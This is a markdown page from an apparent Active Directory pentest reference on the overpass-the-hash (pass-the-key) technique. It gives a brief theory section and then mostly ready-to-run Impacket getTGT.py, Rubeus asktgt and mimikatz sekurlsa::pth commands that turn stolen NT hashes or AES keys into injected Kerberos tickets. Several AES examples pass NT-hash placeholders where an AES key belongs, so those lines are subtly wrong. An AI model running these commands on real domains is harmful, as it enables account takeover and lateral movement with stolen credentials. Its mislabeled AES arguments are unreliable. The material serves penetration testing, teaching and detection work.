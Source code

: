 # Overpass the hash

## Theory

In short, an attacker knowing a user's NT hash can use it to authenticate over NTLM \([pass-the-hash](../abusing-lm-and-ntlm/pass-the-hash.md)\) or indirectly over Kerberos \(overpass-the-hash, **also known as pass-the-key**\) when the RC4 etype is not disabled.

With overpass-the-hash, an attacker can leverage a user's NT hash to request a TGT, that can then be used with [pass-the-ticket](pass-the-ticket.md) to request a Service ticket and access a service using Kerberos. This is possible only when RC4 etype is enable for Kerberos, which is the case by default.

When RC4 etype is not enabled, they other keys \(DES, AES\) can be passed in the same way, hence the alias for this technique "pass the key". But bear in mind the NT hash can only be used when RC4 is not disabled.

## Practice

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getTGT](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) \(Python\) can request a TGT \(Ticket Granting Ticket\) given a password, hash \(`LMhash` can be empty\), or aesKey. The TGT will be saved as a ccache file that can then be used by other Impacket scripts.

```bash
# with a password
getTGT.py $DOMAIN/$USER:$PASSWORD@$TARGET

# with an NT hash
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key
getTGT.py -aesKey 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```

Once a TGT is obtained, the tester can use it with the environment variable `KRB5CCNAME` with tools implementing [pass-the-ticket](pass-the-ticket.md).

{% page-ref page="pass-the-ticket.md" %}

On Windows, requesting a TGT can be achieved with [Rubeus](https://github.com/GhostPack/Rubeus) \(C\#\). The ticket will be injected in the session and Windows will natively be able to use these tickets to access given services.

```bash
# with an NT hash
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$NThash /ptt

# with an AES 256 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$NThash /ptt
```

An alternative to Rubeus is [mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).

## Resources

{% embed url="https://blog.notso.pro/2020-05-09-offops-in-ad-1/" caption="" %}

{% embed url="http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash" caption="" %}

{% embed url="https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/" caption="" %}


